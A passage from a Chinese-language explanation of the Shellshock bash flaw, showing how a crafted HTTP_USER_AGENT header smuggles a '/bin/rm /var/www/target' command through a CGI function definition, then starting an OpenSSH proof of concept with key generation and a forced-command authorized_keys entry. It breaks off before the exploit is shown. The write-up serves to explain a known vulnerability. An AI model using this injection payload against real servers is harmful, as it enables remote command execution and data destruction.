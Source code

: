 这个例子当中，内容被传入 HTTP_USER_AGENT (CGI 会把 HTTP 头当成环境变量解析). 最终变成这样：

```
HTTP_USER_AGENT() {
    :;
};
/bin/rm /var/www/target

```

应该只解析函数的定义，但是后面的内容仍然执行了。

### 4, 针对 OpenSSH 的 POC

目前有 2 个攻击平面，Solar Designer 给出了 SSH_ORIGINAL_COMMAND 的本地利用方法：

[seclists.org/oss-sec/2014/q3/651](http://seclists.org/oss-sec/2014/q3/651)

还有就是针对远程利用的 POC，通过利用 TERM：

在机器 A 上生成一对 RSA key pair:

```
shawn@debian-test32:~/.ssh$ ssh-keygen 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/shawn/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/shawn/.ssh/id_rsa.
Your public key has been saved in /home/shawn/.ssh/id_rsa.pub.
The key fingerprint is:
09:1c:92:fb:c5:68:f8:e1:b9:c2:62:a8:c7:75:5b:dc shawn@debian-test32
The key's randomart image is:
+--[ RSA 2048]----+
|    ...          |
|    .o .         |
|     ooo         |
|    o +.o.       |
|     = =S.       |
|    . * o E      |
| o o . +         |
|. = o o          |
|oo . .           |
+-----------------+

```

把 A 的公钥拷贝到机器 B 上：

```
$cat /home/shawn/.ssh/authorized_keys
command="/tmp/ssh.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9xYHEdjbbvSO+RAtDS3u+R4sD87SUQq5OZJ+6P5n3BoOz8eKfmK2B4qQa28uGvpseFSSXIoXTKdeS3mCXevbibGG6E3RQ63U7USrh9iQupO6c45Qt+3/WOo7X3mRlZ1awUmCjurcA5Zm/yOvyMJCoRd1kpkiJljgHtMztEhWvAE4inFkqyWC81SSfsvNd/GEiyCpFw84UTdF/cH626V3V73hlxwBMd8UKI27I7ATMOcPgWsI5738tLpgPDSisvZZXZNlxAfvSgpxKYAHOQ9VsaJCG4q+Giob5iX4IDzn8gs8G7uGW+EGhzTMq83f/8ar5a5Ex8Dg9M/loYPIPp5gJ shawn@debian-test32

```
